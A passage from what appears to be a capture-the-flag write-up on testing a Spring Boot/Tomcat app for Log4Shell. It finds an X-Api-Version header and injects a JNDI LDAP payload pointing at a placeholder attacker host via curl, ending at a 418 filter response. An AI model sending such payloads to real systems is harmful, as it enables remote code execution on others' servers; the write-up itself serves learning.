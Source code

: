 ![White Label Error Page is a Spring Boot error page.](/images/shaker/whitelabel-google.png)

Ok, so we know we're dealing with Spring Boot and tomcat. So we're still in the realm of Java applications. Are we still dealing with Log4j?

It's a possibility, but first we need to figure out why our request is bad. Let's try the HTTP Options method.

![HTTP Options Request and Response.](/images/shaker/http-options.png)

This tells us we need to use an X-Api-Version header, so let's try using it.

![With the X-Api-Version header.](/images/shaker/x-api-header.png)

Ok, we have a valid request. It stands to reason that X-API-Versions would be logged per request, so we can start by injecting our Log4J payload there. And see if marshalsec gets any requests.

```bash
curl -H 'X-API-Version: ${jndi:ldap://ATTACKER_IP_ADDRESS:1389/Exploit}' http://127.0.0.1:8888
```

We unfortunately do not get a call back on marshalsec. And the response:

![Error 418](/images/shaker/teapot.png)

Very interesting, I'm pretty sure I didn't request it to make coffee but it's giving me the famous teapot error code. It's probably the developer implementing another filter:
